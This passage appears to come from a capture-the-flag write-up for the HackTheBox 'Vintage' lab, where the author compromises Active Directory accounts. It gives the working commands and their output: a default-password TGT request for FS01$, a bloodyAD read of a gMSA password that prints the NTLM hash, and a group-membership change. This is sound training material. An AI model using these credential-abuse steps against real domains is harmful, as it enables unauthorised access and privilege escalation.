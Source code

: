 ### Pre-Created Computer
When a new computer account of this type is configured, its password is set based on its name (i.e. lowercase computer name). Let's verify if we can get a TGT by using the standard password for this computer account.

```console
$ getTGT.py vintage.htb/FS01$ -dc-ip 10.10.11.45

Password:fs01
[*] Saving ticket in FS01$.ccache
```

We managed to save the machine's TGT meaning this is indeed a valid password. Looking at the results from BloodHound again, this account can read the password for the GMSA `GMSA01$`. And the latter can also add itself it the `SERVICEMANAGERS` group.

![](/assets/images/writeups/vintage/BH-FS01.png)

### ReadGMSAPassword Abuse
There are several methods we can use to read this password, but the easiest method is to use `BloodyAD`. Again we need to do our authentication over Kerberos by using the TGT of `FS01$`.

```console
$ bloodyAD -k ccache=FS01$.ccache --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
msDS-ManagedPassword.B64ENCODED: rbqGzqVFdvxykdQOfIBbURV60BZIq0uuTGQhrt7I1TyP2RA/oEHtUj9GrQGAFahc5XjLHb9RimLD5YXWsF5OiNgZ5SeBM+WrdQIkQPsnm/wZa/GKMx+m6zYXNknGo8teRnCxCinuh22f0Hi6pwpoycKKBWtXin4n8WQXF7gDyGG6l23O9mrmJCFNlGyQ2+75Z1C6DD0jp29nn6WoDq3nhWhv9BdZRkQ7nOkxDU0bFOOKYnSXWMM7SkaXA9S3TQPz86bV9BwYmB/6EfGJd2eHp5wijyIFG4/A+n7iHBfVFcZDN3LhvTKcnnBy5nihhtrMsYh2UMSSN9KEAVQBOAw12g==
```
### GenericWrite Abuse
We got the NTLM hash and the Base64 encoded password. We again retreive the TGT of the GMSA account and add ourself to the `SERVICEMANAGERS` group.

```console
$ getTGT.py vintage.htb/GMSA01$ -dc-ip 10.10.11.45 -hashes ':a317f224b45046c1446372c4dc06ae53'

[*] Saving ticket in GMSA01$.ccache

$ bloodyAD -k ccache=GMSA01$.ccache --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 add groupMember SERVICEMANAGERS GMSA01$
[+] GMSA01$ added to SERVICEMANAGERS
```
